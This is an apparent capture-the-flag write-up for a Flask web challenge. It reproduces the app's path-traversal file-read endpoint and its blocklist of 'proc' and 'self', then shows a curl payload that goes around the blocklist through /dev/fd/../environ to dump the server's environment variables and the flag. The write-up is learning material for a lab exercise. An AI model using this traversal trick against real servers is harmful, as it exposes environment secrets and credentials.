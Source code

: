 
## Description
`can you read my thoughts`

## source code from zip file

```python
from flask import Flask,request  
import os  
  
flag = os.environ.get('flag')  
  
app = Flask(__name__)  
  
@app.route('/')  
def hello_world():  
	return 'Hello, World!'  
  
blocked=["proc","self"]  
  
@app.route('/readfile')  
def readfile():  
	if request.args.get('file'):  
		file=request.args.get('file').encode('utf-8')  
	if any([b in file.decode("utf-8") for b in blocked]) :  
		return "Blocked, why not try to read note.txt?"  
	try:  
		content=open(os.path.join("safe/",file.decode('utf-8'))).rea()  
		return content  
	except:  
		return "An error occured"  
  
	else:  
		return "please enter ?file"  
  
if __name__ == '__main__':  
app.run(host='0.0.0.0')
```

- **as we can see the flag is in an environment variable , environment variables is stored in /proc/self/environ**

- **as we can see the word `proc` and `self` is blocked** 


##### **first i thought it was about encoding or escaping chars but a hint was released after a while that it is another path in the system** 

##### **I searched for symbolic link to `/proc/self` after a lot of searching online i found that the best place to search is my Linux , i found that /dev have a lot of symbolic links using `ls -lah` one of them absolutely is our answer**

```bash
lrwxrwxrwx   1 root root            13 Jul 29 11:47 fd -> /proc/self/fd
```

##### so our payload will be
``` bash
curl "http://185.69.167.144:5000/readfile?file=/dev/fd/../environ"  

PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=87b219cf3f12LANG=C.UTF-8GPG_KEY=E3FF2839C048B25C084DEBE9B26995E3102  
50568PYTHON_VERSION=3.9.17PYTHON_PIP_VERSION=23.0.1PYTHON_SETUPTOOLS_VERSION=58.1.0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/0d8570dc44796f4369  
b652222cf176b3db6ac70e/public/get-pip.pyPYTHON_GET_PIP_SHA256=96461deced5c2a487ddc65207ec5a9cffeca0d34e7af7ea1afc470ff0d746207flag=CATF{FREE_pALESsTIne_4444  
444_Ev3r_env}HOME=/root%
```

##### and here is our flag 
```
CATF{FREE_pALESsTIne_4444444_Ev3r_env}
```